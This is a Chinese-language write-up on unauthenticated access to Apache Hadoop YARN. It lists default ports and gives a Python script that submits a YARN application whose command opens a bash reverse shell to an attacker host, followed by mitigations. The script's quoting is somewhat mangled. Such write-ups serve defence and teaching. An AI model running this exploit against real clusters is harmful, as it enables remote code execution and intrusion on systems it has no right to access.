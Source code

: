 ```yaml
---
title: Hadoop未授权访问
id: zhfly2962
---
```


# Hadoop未授权访问

## 一、漏洞简介

> Hadoop是一款由Apache基金会推出的分布式系统框架，它通过著名的 MapReduce 算法进行分布式处理。这个框架被Adobe，Last fm，EBay，Yahoo等知名公司使用着。它极大地精简化程序员进行分布式计算时所需的操作，用户大概通过如下步骤在hadoop中实现分布式处理：

*   用户创建一个处理键值的map函数
*   产生了一套中间键/值
*   reduce函数合并中间值并把他们关联到对应的键

## 二、影响范围

## 三、复现过程

#### 1\. 扫描探测

##### 1.1 常见端口

![image](../img/bd9206d43d21e83527fd04593e44ee67.png)

##### 1.2 敏感端口

| 模块 | 节点 | 默认端口 |
| --- | --- | --- |
| HDFS | NameNode | 50070 |
| HDFS | SecondNameNode | 50090 |
| HDFS | DataNode | 50075 |
| HDFS | Backup/Checkpoint node | 50105 |
| MapReduce | JobTracker | 50030 |
| MapReduce | TaskTracker | 50060 |

通过访问 NameNode WebUI 管理界面的 50070 端口，可以下载任意文件。而且，如果 DataNode 的默认端口 50075 开放，攻击者可以通过 HDSF 提供的 restful API 对 HDFS 存储的数据进行操作。

![image](../img/995012ff5d662d413dd6ffc8a6232205.png)

#### 2\. 攻击手法

利用方法和原理中有一些不同。在没有 hadoop client 的情况下，直接通过 REST API 也可以提交任务执行。

利用过程如下：

*   在本地监听等待反弹 shell 连接
*   调用 New Application API 创建 Application
*   调用 Submit Application API 提交

**P牛的攻击脚本**

```
##!/usr/bin/env python

import requests

target = ‘[http://127.0.0.1:8088/](http://127.0.0.1:8088/)’

lhost = ‘192.168.0.1’ ## put your local host ip here, and listen at port 9999 `url = target + ‘ws/v1/cluster/apps/new-application’

resp = requests.post(url)

app_id = resp.json()[‘application-id’]

url = target + ‘ws/v1/cluster/apps’

data = {

‘application-id’: app_id,

‘application-name’: ‘get-shell’,

‘am-container-spec’: {

‘commands’: {

‘command’: ‘/bin/bash -i >& /dev/tcp/%s/9999 0>&1’ % lhost,

},

},

‘application-type’: ‘YARN’,

}

requests.post(url, json=data)` 
```

![image](../img/5e061ae1f8353e17158d8c31f4352570.png)

#### 3\. 防范措施

1.  网络访问控制
    使用 安全组防火墙 或本地操作系统防火墙对访问源 IP 进行控制。如果您的 Hadoop 环境仅对内网服务器提供服务，建议不要将 Hadoop 服务所有端口发布到互联网。

2.  启用认证功能
    启用 Kerberos 认证功能。

3.  更新补丁
    不定期关注 Hadoop 官方发布的最新版本，并及时更新补丁。